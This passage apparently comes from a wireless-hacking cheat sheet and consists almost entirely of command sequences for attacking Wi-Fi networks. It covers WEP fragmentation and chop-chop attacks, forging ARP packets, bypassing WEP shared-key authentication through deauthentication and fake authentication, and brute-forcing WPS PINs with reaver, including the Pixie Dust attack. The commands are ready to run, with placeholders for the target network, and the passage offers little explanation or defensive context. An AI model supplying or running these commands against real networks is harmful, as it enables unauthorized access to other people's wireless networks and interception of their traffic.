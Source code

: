 ```bash
aireplay-ng -5 -b <BSSID> -h <YOUR_MAC> wlan0mon
packetforge-ng -0 -a <BSSID> -h <YOUR_MAC> \
  -k 255.255.255.255 -l 255.255.255.255 \
  -y <FRAGMENT.xor> \
  -w <ARP_REQUEST>
aireplay-ng -2 -r <ARP_REQUEST> wlan0mon
aircrack-ng <CAPTURE_NAME.cap>
```
---

### Chop Chop Attack
```bash
aireplay-ng -4 -b <BSSID> -h <YOUR_MAC> wlan0mon
packetforge-ng -0 -a <BSSID> -h <YOUR_MAC> \
  -k 255.255.255.255 -l 255.255.255.255 \
  -y <CHOPCHOP.xor> \
  -w <ARP_REQUEST>
aireplay-ng -2 -r <ARP_REQUEST> wlan0mon
aircrack-ng <CAPTURE_NAME.cap>
```

---
### Bypassing Shared Key Authentication

1. **Deauth** a real client & capture the PRGA XOR.
2. **Fake auth** using the XOR keystream: 
```bash
aireplay-ng -1 60 -e <ESSID> -y <wepshared-PRGA.xor> -a <BSSID> -h <YOUR_MAC> wlan0mon
```
3. **ARP replay** to generate IVs:
```bash
aireplay-ng -3 -b <BSSID> -h <YOUR_MAC> wlan0mon
```
4. **Crack with aircrack-ng** once enough IVs are collected.

---
## 6. WPS Attacks

### Identifying WPS Networks

```bash
wash -i wlan0mon -s
```

Check the **Lck** column. If `No`, WPS might be brute-forced.

---
### Online & Offline (Pixie Dust) Attacks

```bash
# Reaver (online brute force)
reaver -i wlan0mon -b <BSSID> -c <CHANNEL> -vv -S

# Reaver (Pixie Dust offline)
reaver -i wlan0mon -b <BSSID> -K -vv
```
